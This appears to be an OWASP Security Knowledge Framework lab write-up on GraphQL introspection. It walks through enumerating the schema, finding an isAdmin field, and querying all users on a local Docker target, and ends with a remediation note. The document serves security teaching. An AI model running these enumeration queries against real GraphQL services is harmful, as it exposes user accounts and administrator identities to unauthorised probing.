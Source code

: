 # GraphQL Introspection

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:graphql-info-introspection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:graphql-info-introspection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Introspection/1.png)

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Introspection/2.png)

The application gives us interesting `Types`. Let's explore the `UserObject` one. If we build a more complex query we can ask for more information, exploring every field available. Let's send the following:

```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Introspection/3.png)

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```javascript
{
  "data": {
    "__type": {
      "name": "UserObject",
      "fields": [
        {
          "name": "uuid",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        },
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "isAdmin",
          "type": {
            "name": "Boolean",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "posts",
          "type": {
            "name": "PostObjectConnection",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
query availableQueries {
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Introspection/4.png)

That will give us the `allUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
  allUsers {
    edges {
      node {
        username
        isAdmin
      }
    }
  }
}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Graphql-Introspection/5.png)

## Remediation

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources

